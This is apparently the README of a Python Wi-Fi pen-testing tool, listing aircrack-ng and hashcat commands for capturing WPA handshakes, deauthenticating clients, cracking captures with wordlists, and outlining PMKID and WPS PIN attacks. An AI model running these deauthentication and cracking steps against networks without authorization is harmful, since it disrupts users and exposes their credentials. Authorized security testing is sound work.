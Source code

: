 # WiFighter
Easy-to-use WiFI pen-testing/scanning tool written in python


## Installation 

**Dependencies**
```c
sudo zypper in python3 aircrack-ng hashcat ...
```

**Creating python virtual enviroment**

Clone the project
```c
git clone https://github.com/FilipStruhar/WiFighter.git
```

Enter the project folder
```c
cd WiFighter
```

Create virtual enviroment
```c
python3 -m venv venv
```

Enter the virtual enviroment
```c
source venv/bin/activate
```

Install python modules (prettytable, tqdm, psutil) 
```c
pip3 install -r requirements.txt
```

Exit from virtual enviroment
```c
deactivate
```

Run the tool
```c
sudo ./wifighter.py
```


## WiFi Scan & Select
- kill, wake subcommands
- Client scanning (scapy/pyseek)
- WPS scan

- Utilize hashcat & xctools - HW acc. cracking & generating wordlists, conversions

## Threat Hunt




## Attack mode

### 1. WPA/WPA2 Handshake Crack

**Aircrack guide**
- WPA, WEP Cracking
- WiFi Scanning
- AP Deauth (DoS)

**Monitor mode**

Set interface to monitor
```c
sudo airmon-ng start <INTERFACE>
```

Set interface to managed
```c
sudo airmon-ng stop <INTERFACE>mon
```

**Scan nearby WiFi's**

Scan all
```c
sudo airodump-ng <INTERFACE>mon
```

Scan 2.4GHz WiFi's
```c
sudo airodump-ng --band gb <ESSID> <INTERFACE>mon
```

Scan 5GHz WiFi's
```c
sudo airodump-ng --band a <ESSID> <INTERFACE>mon
```

**Capture handshake**

Listen for handshake of specified AP
```c
sudo airodump-ng -c <CHANNEL> --bssid <BSSID> -w <OUTPUT_FILE> <INTERFACE>mon
```

**Deauth clients (force handshake)**

Deauth all (broadcast)
```c
sudo aireplay-ng -0 1 -a <BSSID> <INTERFACE>mon
```

Deauth client
```c
sudo aireplay-ng -0 1 -a <BSSID> -c <CLIENT_MAC> <INTERFACE>mon
```

Verify captured handshake
```c
sudo aircrack-ng <HANDSHAKE>.cap 
```

**Crack handshake - aircrack**

```c
sudo aircrack-ng -w <WORDLIST> -b <TARGET_AP_MAC> <HANDSHAKE>.cap
```

**Crack handshake - hashcat**

Convert captured handshake to hashcat format
```c
sudo aircrack-ng -J <OUTPUTFILE> <HANDSHAKE>.cap  
```

Crack with wordlist
```c
sudo hashcat -m 22000 <HANDSHAKE>.hccap <WORDLIST>
```


### 2. PMKID Attack (802.11r exploit)

**Hcxtools guide - TESTOVAT U TATY, TP-Link OneMesh feature**

- PMKID Capture
- Converting raw .pcapng captures to hashcat readable formats

**Installation**

```c
git clone https://github.com/ZerBea/hcxtools.git
cd hcxtools
```



### 3. WPS

**Reaver or Bully ??**
- Online WPS PIN Brute Force

**Pixie Dust**
- Offline WPS PIN crack
- Není to brute force (rychlejší)
- Využívá slabé kryptografie PINu (né každý router je náchylný)




